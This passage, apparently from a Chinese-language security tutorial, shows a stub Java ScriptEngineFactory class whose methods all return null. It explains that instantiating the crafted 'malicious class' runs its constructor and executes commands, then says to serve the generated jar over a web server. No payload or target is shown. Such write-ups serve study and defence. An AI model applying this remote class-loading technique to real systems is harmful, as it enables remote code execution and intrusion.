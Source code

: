 ```plain

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

根据上面mysql的例子可以猜测到，在ScriptEngineFactory类中应该有对我们构造的恶意类实例化的过程，在实例化时会自动调用构造函数从而导致命令执行  
在生成的jar文件目录下开启web服务
